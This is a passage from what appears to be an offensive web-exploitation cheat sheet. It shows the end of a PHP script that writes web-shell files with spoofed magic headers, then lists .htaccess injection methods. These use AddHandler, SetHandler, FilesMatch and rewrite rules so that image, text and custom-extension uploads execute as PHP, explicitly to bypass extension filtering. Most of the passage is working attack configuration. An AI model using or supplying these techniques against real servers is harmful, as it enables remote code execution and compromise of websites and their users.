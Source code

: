 ```php
    $filename = "shell_magic.$ext";
    file_put_contents($filename, $header . $php_shell);
    echo "Created: $filename\n";
}
?>
```

## 2. .htaccess INJECTION TECHNIQUES

### 2.1 Basic .htaccess Shell

```apache
# Method 1: AddHandler
AddHandler application/x-httpd-php .pwn
AddType application/x-httpd-php .pwn

# Method 2: SetHandler  
<FilesMatch "\.pwn$">
SetHandler application/x-httpd-php
</FilesMatch>

# Method 3: Force PHP for all files in directory
<Files *>
SetHandler application/x-httpd-php
</Files>

# Method 4: Specific extension
<Files "*.shell">
SetHandler application/x-httpd-php
</Files>
```

### 2.2 Advanced .htaccess Techniques

```apache
# Bypass extension filtering
AddType application/x-httpd-php .jpg .png .gif .txt .log

# Execute PHP from any file with specific pattern
<FilesMatch "shell">
SetHandler application/x-httpd-php
</FilesMatch>

# Directory specific handler
<Directory /uploads>
AddHandler php5-script .abc
</Directory>

# Rewrite rule to execute PHP
RewriteEngine On
RewriteRule ^(.*)\.test$ $1.php
```
